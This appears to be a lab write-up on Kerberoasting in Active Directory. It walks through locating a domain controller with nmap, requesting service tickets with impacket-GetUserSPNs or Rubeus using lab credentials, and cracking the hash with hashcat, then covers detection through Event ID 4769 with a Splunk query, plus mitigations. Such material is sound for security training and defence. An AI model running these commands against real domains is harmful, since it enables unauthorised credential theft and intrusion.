




# Kerberoasting

Kerberoasting is a post-compromise attack where an attacker requests a Kerberos **Ticket Granting Service (TGS)** ticket for any service account associated with a **Service Principal Name (SPN)**. Because part of the TGS ticket is encrypted with the service account's password hash, the attacker can extract it and crack it offline to recover the plaintext credentials — no special privileges required, just a valid domain user account.



### Attack Flow

```
Valid domain user → Request TGS for SPN → Extract encrypted hash → Crack offline → Plaintext password
```

---

## Phase 1 — Locate the Domain Controller

Before attacking, confirm which host on the subnet is the Domain Controller. Domain Controllers uniquely expose Kerberos (port 88) and LDAP (port 389).

```bash
nmap -p 88,389,445 --open 10.0.0.0/24
```



**Result:** `10.0.0.60` had all three ports open, confirming it as the Active Directory Domain Controller.

---

## Prerequisites

A successful Kerberoasting attack requires credentials obtained from an earlier phase (e.g. [LLMNR poisoning](llmnr-poisoning.md)):

| Data                 | Value         |
| -------------------- | ------------- |
| Workstation IP       | `10.0.0.50`   |
| Domain Controller IP | `10.0.0.60`   |
| Domain               | `mo.local`    |
| Username             | `k.lamar`     |
| Plaintext password   | `Password1!!` |

We use `k.lamar`'s credentials to authenticate to the DC at `10.0.0.60` and request TGS tickets on their behalf.

---

## Step 1 — Enumerate SPNs and Request TGS Tickets

Using Impacket's `GetUserSPNs`, we query the Domain Controller for all accounts tied to an SPN and request their TGS tickets in one command.

```bash
impacket-GetUserSPNs mo.local/k.lamar:'Password1!!' -dc-ip 10.0.0.60 -request
```

| Flag                             | Description                                       |
| -------------------------------- | ------------------------------------------------- |
| `mo.local/k.lamar:'Password1!!'` | Authenticating as a standard domain user          |
| `-dc-ip 10.0.0.60`               | Target Domain Controller IP                       |
| `-request`                       | Request TGS tickets and output the crackable hash |


**Result:** The query returned a service account named **SQLService** along with its `$krb5tgs$` hash.

### Understanding the Hash Format

The output looks like a long, intimidating blob — here's what each part means:

```
$krb5tgs$23$*SQLService$mo.local$mo.local/SQLService*$a3f1....<truncated>
```

| Segment      | Meaning                                                                 |
| ------------ | ----------------------------------------------------------------------- |
| `$krb5tgs$`  | Identifies this as a Kerberos TGS-REP ticket                            |
| `23`         | Encryption type — RC4-HMAC (etype 23), the most commonly crackable type |
| `SQLService` | The service account whose password encrypted the ticket                 |
| `mo.local`   | The domain                                                              |
| `$a3f1....`  | The actual encrypted blob — this is what Hashcat will attack            |

Copy the full hash into a file:

```bash
echo "<paste full hash here>" > kerbhashes.txt
```

> **On a Windows machine?** Use [Rubeus](https://github.com/GhostPack/Rubeus) instead — it runs directly on a domain-joined host and outputs hashes in the same crackable format:
>
> ```powershell
> Rubeus.exe kerberoast /outfile:kerbhashes.txt
> ```

---

## Step 2 — Crack the Hash Offline

With the TGS ticket extracted, run it through Hashcat using mode `13100` (Kerberos 5 TGS-REP etype 23).

```bash
hashcat -m 13100 kerbhashes.txt rockyou.txt -O
```

| Flag / Argument  | Description                                              |
| ---------------- | -------------------------------------------------------- |
| `-m 13100`       | Hash type: Kerberos 5 TGS-REP (RC4)                      |
| `kerbhashes.txt` | File containing the extracted TGS hash                   |
| `rockyou.txt`    | Wordlist                                                 |
| `-O`             | Optimised kernel — faster cracking on supported hardware |



**Result:** The offline attack recovered the plaintext password for the **SQLService** account:

```
$krb5tgs$23$*SQLService$mo.local$...:Password123
                                      ^^^^^^^^^^^
                                      SQLService : Password123
```

---

## Why This Attack Works

| Factor                            | Detail                                                                        |
| --------------------------------- | ----------------------------------------------------------------------------- |
| No special privileges needed      | Any authenticated domain user can request a TGS for any SPN                   |
| Offline cracking                  | The hash never has to touch the DC again — no lockout risk                    |
| Service accounts are weak targets | Often set with non-expiring passwords and weak passphrases                    |
| Legitimate-looking traffic        | TGS requests are normal Kerberos activity — hard to detect without baselining |

---

## Detection

Kerberoasting generates **Event ID 4769** (A Kerberos service ticket was requested) on the Domain Controller. A single request is normal — a burst of them is not.

Look for this pattern in Windows Event Viewer or your SIEM:

```
Event ID:               4769
Account Name:           k.lamar@MO.LOCAL
Service Name:           SQLService
Ticket Options:         0x40810000
Ticket Encryption Type: 0x17   ← RC4 (etype 23) — weaker, preferred by attackers
Failure Code:           0x0    ← Success
```

**Suspicious signals:**

- A single account requesting TGS tickets for **multiple SPNs** in a short window
- `Encryption Type: 0x17` (RC4) requests when your environment enforces AES — attackers deliberately downgrade
- TGS requests originating from a **non-service workstation** (e.g. a developer laptop)

The following Splunk SPL query creates an alert for Kerberoasting — it catches the pattern of a single account making a burst of RC4 TGS requests within a 5-minute window:

```splunk
index="wineventlog" source="WinEventLog:Security" EventCode=4769 Ticket_Encryption_Type="0x17"
| bucket _time span=5m
| stats count as RequestCount values(Service_Name) as Requested_SPNs by Account_Name, _time
| where RequestCount > 3
| sort - RequestCount
```



---

## Mitigation

| Control                                     | Detail                                                                             |
| ------------------------------------------- | ---------------------------------------------------------------------------------- |
| Use strong service account passwords        | 25+ character random passwords make offline cracking infeasible                    |
| Managed Service Accounts (MSAs / gMSAs)     | AD automatically rotates passwords — eliminates crackable static hashes            |
| Audit SPNs regularly                        | Remove SPNs from accounts that don't need them (`setspn -Q */*`)                   |
| Enforce AES encryption for service accounts | Prevents RC4 downgrade — attackers need RC4 to produce crackable hashes            |
| Monitor TGS request volume                  | Bulk TGS requests for multiple SPNs in a short window is a detection signal        |
| Restrict SPN accounts                       | Service accounts shouldn't have interactive logon or unnecessary group memberships |
